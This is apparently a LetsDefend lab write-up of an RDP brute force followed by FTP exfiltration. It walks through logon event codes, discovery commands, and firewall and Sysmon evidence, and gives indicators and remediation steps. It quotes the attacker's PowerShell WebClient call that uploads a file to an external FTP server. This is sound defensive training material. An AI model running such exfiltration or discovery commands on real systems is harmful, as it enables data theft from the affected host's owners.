# Incident Report: Data Exfiltration to an External FTP Server After an RDP Brute Force

**Incident:** Data Exfiltration to an External FTP Server After an RDP Brute Force
**Platform:** LetsDefend
**Severity:** High
**Category:** Data Exfiltration
**Date:** 25/06/24
**Related Alerts:** SOC295

> Investigation answers and platform flags are redacted. This report documents the analysis process and reasoning, not the solution to the exercise.

---

## 1. Alert Overview

| Field               | Value                                               |
| ------------------- | --------------------------------------------------- |
| Alert ID            | SOC295 (Event ID 271)                               |
| Trigger Time        | 2024-06-25 07:15:37 UTC                             |
| Rule Name           | SOC295 Potential Data Exfiltration Detected via FTP |
| Severity            | High                                                |
| Source Address      | 172.16.17.237 (Jaiden)                              |
| Destination Address | 159.69.223.221 (eu-central-1.sftpcloud.io)          |
| Device Action       | Allowed                                             |

This rule watches for files leaving the environment over FTP. A workstation has almost no reason to speak FTP to the internet, so a PowerShell process opening an outbound session and issuing a STOR command is worth a look every time. Here it fired on `$webClient.UploadFile($ftpUrl, "STOR", $localFilePath)`, run by powershell.exe on the host Jaiden.

Times below are UTC, matching Sysmon and the file timestamps on the host. The LetsDefend console shows local time, four hours ahead, which is why a screenshot reads 11:15 where the text reads 07:15.

---

## 2. Alert Report

**Verdict:** True Positive

**Time of Activity:** 2024-06-25, 07:05:38 to 07:15:39 UTC. Ten minutes and one second from the first failed password to a finished upload.

| Time (UTC)           | Event                                                                                                     |
| -------------------- | --------------------------------------------------------------------------------------------------------- |
| 07:05:38             | First failed RDP logon from 169.150.218.3 (Event ID 4625)                                                 |
| 07:07:30             | Successful RDP logon, account LetsDefend (Event ID 4624, Logon Type 10)                                   |
| 07:08:04 to 07:08:50 | Account and group discovery (whoami, whoami /groups, Get-LocalGroup, Get-LocalGroupMember Administrators) |
| 07:10:04             | ICMP test to eu-central-1.sftpcloud.io                                                                    |
| 07:13:07             | Recursive search of C:\ for file names containing Secret                                                  |
| 07:15:37             | Sysmon Event ID 22 resolves eu-central-1.sftpcloud.io to 159.69.223.221                                   |
| 07:15:38             | FTP data channel to 159.69.223.221:50044, SUCCESS                                                         |
| 07:15:39             | FTP control channel to 159.69.223.221:21, SUCCESS                                                         |

**Affected Entities:**

| Entity                   | Value                                                         |
| ------------------------ | ------------------------------------------------------------- |
| Affected host            | 172.16.17.237, hostname Jaiden, computer name EC2AMAZ-ILGVOIN |
| Compromised account      | LetsDefend (local account, RDP logon type 10)                 |
| Attacker source          | 169.150.218.3 (Netherlands)                                   |
| Exfiltration destination | 159.69.223.221, eu-central-1.sftpcloud.io                     |
| Process involved         | powershell.exe                                                |
| File uploaded            | C:\Users\LetsDefend\Downloads\Top Secret.docx (19 bytes)      |
| Services exposed         | RDP 3389 inbound, FTP 21 and passive data ports outbound      |
| Account also probed      | guest, confirmed to exist on the host during the brute force  |

**Reasoning:**

The alert triggered on a PowerShell FTP upload originating from the workstation Jaiden (172.16.17.237) under the local account LetsDefend. Investigation confirmed that the same account had been brute forced over RDP from 169.150.218.3 two minutes earlier, and that the upload completed on both the control channel and the data channel, which indicates an external attacker already held the host and had reached the exfiltration stage.

The connection attempt was allowed by the perimeter firewall rather than blocked. Nothing stopped the inbound RDP attempts either, so the attacker worked uninterrupted from the first password guess to the finished upload.

The file that left the host was a 19 byte decoy written by the attacker's own script, so no real company data was lost this time. The recursive search for file names containing Secret shows the intent was there, and the upload proves the route out works.

**Escalation:**

Requaired.

An external attacker brute forced RDP, took over the local account LetsDefend, and used that access to push a file to an FTP server outside the environment. No control blocked either half of that. Host 172.16.17.237 has already been isolated from the network.

The activity stays on this one host and this one account. The file that left contains no real data, no persistence mechanism was found, and nothing points to lateral movement. Credential reset and closing the RDP exposure matter more here than a wide breach hunt.

**Recommended Remediation Action:**

1. Reset the password for the LetsDefend account and kill all active sessions. The account fell in under two minutes, which says the password was weak or common.
2. Block 169.150.218.3 at the perimeter.
3. Block 159.69.223.221 and restrict outbound FTP, both port 21 and the passive data range.
4. Preserve a copy of Top Secret.docx as evidence, then remove it from the Downloads folder.
5. Take RDP off the internet. Put it behind a VPN and require Network Level Authentication.
6. Turn on an account lockout policy. Dozens of failed logons triggered nothing at all.
7. Require MFA on all remote access.
8. Review the local accounts on this host, guest included, and disable anything unnecessary.

**Indicators of Compromise:**

| Type      | Indicator                                              | Notes                                                  |
| --------- | ------------------------------------------------------ | ------------------------------------------------------ |
| IP        | 169.150.218.3                                          | Attacker source, RDP brute force then successful logon |
| IP        | 159.69.223.221                                         | External FTP server used for the upload                |
| Domain    | eu-central-1.sftpcloud.io                              | Resolved to 159.69.223.221                             |
| File Name | Top Secret.docx                                        | 19 byte decoy created and uploaded by the script       |
| Command   | $webClient.UploadFile($ftpUrl, "STOR", $localFilePath) | FTP upload, the command the alert fired on             |

**MITRE ATT&CK:**

| Tactic            | Technique                                     | ID        |
| ----------------- | --------------------------------------------- | --------- |
| Credential Access | Brute Force                                   | T1110     |
| Initial Access    | External Remote Services                      | T1133     |
| Stealth           | Valid Accounts                                | T1078     |
| Execution         | Command and Scripting Interpreter: PowerShell | T1059.001 |
| Discovery         | System Owner/User Discovery                   | T1033     |
| Discovery         | Permission Groups Discovery: Local Groups     | T1069.001 |
| Discovery         | File and Directory Discovery                  | T1083     |
| Collection        | Data from Local System                        | T1005     |
| Exfiltration      | Automated Exfiltration                        | T1020     |

---

## 3. Investigation

### 3.1 Initial triage

The alert handed me a command and a host and not much else. A PowerShell script had written a file and uploaded it to an external FTP server, and the L1 note mentioned brute force attempts against the same system minutes before.



Two readings were open to me. Someone inside the company used FTP for a legitimate transfer and the rule is noisy, or the upload is the tail end of an intrusion that started with those logon failures. One upload on its own proves very little, so I went to Log Management and filtered on the host address to see what came before 07:15.

### 3.2 Log management: the brute force

Filtering on 172.16.17.237 returned a wall of connections to port 3389 from one external address, 169.150.218.3, starting at 07:05:38.



Every attempt was Event ID 4625, a failed logon, each with a different username.







The error codes are where it got interesting. Most attempts came back 0xC0000064, meaning the username does not exist on the system. The attempt against guest came back 0xC000006A instead: username valid, password wrong.



Those two codes side by side told me this was not blind guessing. Whoever was on the other end could read the difference between the two responses and was using it to map which accounts actually exist on the box. That makes it targeted, and it pushed my read of the later upload toward hostile before I had even looked at it.

At 07:07:30 one attempt came back as Event ID 4624, a successful logon for the account LetsDefend, Logon Type 10. Type 10 is RemoteInteractive, so this is a real desktop session over RDP, not a service or a scheduled task.



Two minutes between the first failure and a working password. The guest account was never cracked.

### 3.3 Reputation check on the attacker address

I ran 169.150.218.3 through VirusTotal, mostly to see whether anyone had flagged it before.



Clean on every engine. I am noting that here because a clean score is easy to misread as a reason to soften the verdict. All it tells you is that nobody has reported the address yet, and attackers rent fresh infrastructure constantly for that exact reason. Meanwhile my own logs held hundreds of failed logons and one successful one from it. The verdict did not move.

### 3.4 What the attacker did after logging in

Terminal history on the host picks the story up from inside the session.





Between 07:08:04 and 07:08:50 came whoami, whoami /groups, Get-LocalGroup and Get-LocalGroupMember Administrators. Ordinary orientation. Who am I, what can I reach, who else is an admin here.

At 07:10:04 there is a ping to eu-central-1.sftpcloud.io, a managed cloud file transfer service hosted in Europe.



The ordering is the part I kept turning over. The connectivity test ran at 07:10:04. The search for anything named Secret ran at 07:13:07, three minutes later. The destination was picked before a single target file had been found, which reads like a prepared workflow rather than someone improvising.

### 3.5 The upload itself

The script behind the alert does three things in sequence.



It writes the literal string "data exfiltration" into C:\Users\LetsDefend\Downloads\Top Secret.docx, builds a System.Net.WebClient with hardcoded FTP credentials, then calls UploadFile with STOR against eu-central-1.sftpcloud.io. Those credentials belong to an account the attacker controls, not to anyone here.

So the contents were never real. The name is dressing. What the script does prove is that the path out of the network works.

### 3.6 Confirming the transfer actually completed

A command sitting in a log only means it ran. It says nothing about whether anything left the building. Three entries settle that.



At 07:15:37 Sysmon Event ID 22 records powershell.exe resolving eu-central-1.sftpcloud.io to 159.69.223.221.



Then two firewall entries, one to port 50044 and one to port 21, both marked SUCCESS with no blocking action.



Port 21 is the FTP control channel, where commands travel. Port 50044 is a passive mode data channel, which is where file content travels. A control channel on its own would only show the server accepting instructions. The data channel is what tells me bytes moved. Both succeeded, so the upload finished.

### 3.7 Checking the host for what was really taken

Top Secret.docx is sitting in the Downloads folder, 1 KB, modified 07:15.



Word refuses to open it and calls the contents corrupt, which is what happens when 19 bytes of plain text are handed over with a .docx extension.



To see whether anything else happened after the upload, I listed everything under C:\Users modified after the transfer completed:

```
Get-ChildItem C:\Users -Recurse -ErrorAction SilentlyContinue | Where {$_.LastWriteTime -gt "2024-06-25 11:15:39"} | Select FullName, LastWriteTime
```





Two results worth anything. Top Secret.docx at 19 bytes, and a set of PowerShell transcript files under C:\Users\LetsDefend\Documents\20240625. I opened the largest, PowerShell_transcript.EC2AMAZ-ILGVOIN.XuePUHAL.20240625070830.txt.



It matches the terminal history line for line, with the full output of the group enumeration attached. The other transcripts repeat the same commands. Nothing new came out of them.

### 3.8 Ruling out a second transfer

My last hypothesis was that the 19 byte file was a dry run and the real data followed behind it. It did not survive contact with the logs. No further connections to 159.69.223.221 after 07:15:39, no files on the host modified after that point, and the terminal history stops at the upload command. No scheduled tasks, no registry autoruns, no new accounts, nothing pointing at another host.

What actually left the environment is 19 bytes of the attacker's own text. I would rather not file that under lucky, though. The password gave way in two minutes, the firewall let the session out without comment, and the first sign anything had happened was the upload tripping a rule. Ten minutes, start to finish, and the only reason this reads as a near miss is that the attacker brought their own file.
